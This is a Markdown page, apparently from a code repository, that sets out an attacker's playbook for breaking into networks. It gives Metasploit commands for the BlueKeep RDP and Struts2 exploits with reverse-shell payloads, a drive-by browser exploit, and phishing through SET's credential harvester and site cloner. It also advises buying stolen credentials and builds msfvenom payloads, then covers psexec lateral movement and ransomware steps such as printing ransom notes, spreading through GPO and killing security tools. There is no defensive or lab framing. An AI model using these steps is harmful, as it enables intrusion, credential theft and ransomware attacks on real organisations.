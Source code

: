### Exploiting Remote Desktop Protocol (RDP)

**Steps to exploit RDP to gain initial access to the target network:**

1. **Identify RDP services:**
   Use tools like `nmap` to scan for open RDP ports (default is 3389).
   ```bash
   nmap -p 3389 <target-ip>
   ```

2. **Enumerate RDP vulnerabilities:**
   Use tools like `rdpscan` to check for vulnerabilities.
   ```bash
   rdpscan --target <target-ip>
   ```

3. **Exploit RDP vulnerabilities:**
   Use Metasploit to exploit RDP vulnerabilities such as BlueKeep.
   ```bash
   msfconsole
   use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
   set RHOSTS <target-ip>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <your-ip>
   run
   ```

### Drive-by Attack for Initial Access

**Steps to gain initial access through a drive-by attack:**

1. **Set up a malicious website:**
   Use `Metasploit` or `SET` to host a malicious payload.
   ```bash
   msfconsole
   use exploit/multi/browser/java_signed_applet
   set SRVHOST <your-ip>
   set URIPATH /
   set PAYLOAD windows/meterpreter/reverse_tcp
   set LHOST <your-ip>
   run
   ```

2. **Redirect victim to the malicious site:**
   Use social engineering or other methods to lure the target to visit the malicious website.

3. **Gain access:**
   Once the victim visits the site, the payload will be executed and you will get a reverse shell.

### Phishing Campaign for Initial Access

**Steps to gain initial access through a phishing campaign:**

1. **Create a phishing email:**
   Use tools like `SET` to create and send phishing emails.
   ```bash
   setoolkit
   1) Social-Engineering Attacks
   2) Website Attack Vectors
   3) Credential Harvester Attack Method
   ```

2. **Host a fake login page:**
   Clone a legitimate website and host it using `SET`.
   ```bash
   setoolkit
   1) Social-Engineering Attacks
   2) Website Attack Vectors
   3) Site Cloner
   ```

3. **Send the phishing email:**
   Use `SET` or another email spoofing tool to send the phishing email to the target with a link to the fake login page.

4. **Harvest credentials:**
   When the target enters their credentials, capture them and use them to access the network.

### Unauthorized Use of Legitimate Accounts

**Steps to gain initial access using legitimate accounts:**

1. **Purchase or obtain credentials:**
   Buy credentials from hacking forums or obtain them via brute force attacks.

2. **Attempt login:**
   Use the credentials to log in to the target network.
   ```bash
   ssh user@<target-ip>
   ```

3. **Gain access:**
   If the credentials are valid, you will gain access to the network.

### Exploiting Publicly Accessible Applications

**Steps to exploit publicly accessible applications to gain initial access:**

1. **Identify public applications:**
   Use tools like `nmap` to identify publicly accessible applications.
   ```bash
   nmap -p- <target-ip>
   ```

2. **Enumerate vulnerabilities:**
   Use tools like `nikto`, `dirb`, or `gobuster` to enumerate vulnerabilities.
   ```bash
   nikto -h <target-ip>
   gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
   ```

3. **Exploit vulnerabilities:**
   Use Metasploit or other exploit frameworks to exploit the vulnerabilities.
   ```bash
   msfconsole
   use exploit/multi/http/struts2_content_type_ognl
   set RHOST <target-ip>
   set TARGETURI /example/struts2-showcase/
   set PAYLOAD java/meterpreter/reverse_tcp
   set LHOST <your-ip>
   run
   ```

### Tools for File Transfer and Execution on Windows

**Common tools for transferring and executing files on Windows:**

- **WinSCP:**
  ```bash
  winscp <user>@<target-ip>
  ```

- **Rclone:**
  ```bash
  rclone copy <source> <destination>
  ```

- **MEGA Ltd MegaSync:**
  ```bash
  megacopy --username <user> --password <password> --local <local-file> --remote <remote-path>
  ```

- **FileZilla:**
  ```bash
  filezilla <user>@<target-ip>
  ```

### Exploiting Windows Systems

**General exploitation steps for Windows systems:**

1. **Compile the payload:**
   Use tools like `msfvenom` to create executable payloads.
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o payload.exe
   ```

2. **Transfer the payload:**
   Use tools like `WinSCP`, `Rclone`, or `FileZilla` to transfer the payload to the target machine.

3. **Execute the payload:**
   Execute the payload using various methods such as social engineering, exploiting existing vulnerabilities, or using remote code execution techniques.

### Persistence and Lateral Movement

**Techniques for persistence and lateral movement:**

- **Using administrative shares:**
  ```bash
  psexec \\<target-ip> -u <admin-user> -p <admin-pass> -c payload.exe
  ```

- **Scanning the network for additional targets:**
  Use embedded port scanners to find SMB, WebDav, DFS shares, etc.

- **Printing ransom notes using network printers:**
  Use tools like `PRET` to exploit network printers.
  ```bash
  python pret.py <printer-ip>
  ```

- **Spreading via Group Policy Objects (GPO):**
  Modify GPOs to spread malicious payloads.

- **Changing file extensions, icons, and other settings:**
  Modify file extensions and icons to disguise malicious files.

- **Self-deleting and machine shutdown:**
  Configure the payload to delete itself after execution or to shut down the machine.

- **Running in safe mode to bypass security solutions:**
  Configure the payload to run in safe mode to bypass security solutions.

- **Shutting down processes, services, and security solutions:**
  Use tools like `taskkill` to shut down processes, services, and security solutions.

